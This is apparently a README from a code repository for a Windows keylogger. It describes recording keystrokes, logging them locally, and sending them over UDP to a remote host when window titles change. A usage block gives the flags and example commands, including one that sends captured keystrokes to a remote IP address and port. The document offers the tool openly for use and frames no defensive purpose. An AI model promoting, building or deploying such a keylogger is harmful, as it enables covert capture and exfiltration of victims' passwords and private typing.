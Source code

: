 ## keylogger

This software can run in windows!

1. record key
2. sendudp msg to your host
3. when title change,send 
4. record log to local host

```shell
usage:
    keylogger [flag=local] ([ip=127.0.0.1] [port=22345]|[logpath=D:/keylogger/])

    flag:
        local   meaning it's local host,next param is the logpath.
        remote  meaning it's will send msmg to remote host,next param is ipaddr. and port of recv. server.
        ...     it's not support this option
    ip:
                it support IPV4,but the flag must `remote`
    port:
                the UDP port of remote recv. server
    logpath:
                when the flag is local,logpath configure to write log.

    example：
        keylogger local “D:/keylogger"
        keylogger remote 10.10.12.12 22345
```